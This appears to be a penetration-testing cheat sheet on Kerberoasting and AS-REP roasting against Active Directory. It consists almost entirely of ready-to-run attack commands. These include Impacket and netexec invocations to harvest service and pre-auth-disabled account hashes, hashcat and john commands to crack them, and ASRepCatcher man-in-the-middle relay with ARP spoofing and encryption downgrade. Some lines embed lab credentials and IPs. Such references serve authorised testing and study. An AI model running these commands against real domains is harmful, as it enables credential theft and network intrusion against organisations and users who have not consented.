 ```yaml
---
title: "Kerberoast-Asreproast"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


**Kerberoasting :**

```sh
GetUserSPNs.py breach.vl/Julia.wong:Computer1 -dc-ip $t

GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter

GetUserSPNs.py -no-preauth "Asreproastable_User" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
#No_preauth_user=Kerberoastable user
proxychains -q nxc ldap 10.10.168.101 -u svc-web-accounting-d -p 'H3r0n2024#!' --kerberoasting output.txt
```

```sh
john --format=krb5tgs --wordlist= /usr/share/wordlists/rockyou.txt hash
hashcat -m 13100 kerberoastables.txt $wordlist
```

**Asreproast :**

- Users list dynamically queried with an LDAP anonymous bind
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- With a users file
```sh
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```

- Users list dynamically queried with a LDAP authenticated bind (password)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

- Users list dynamically queried with a LDAP authenticated bind (NT hash)
```sh
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

- Netexec 
```sh
netexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

- Crack
```sh
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
john --wordlist=$wordlist ASREProastables.txt
```

- MitM:

```sh
# Proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disables ARP spoofing (the MitM must be obtained with other means)
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passively listen for AS-REP packets, no packet alteration
ASRepCatcher listen
```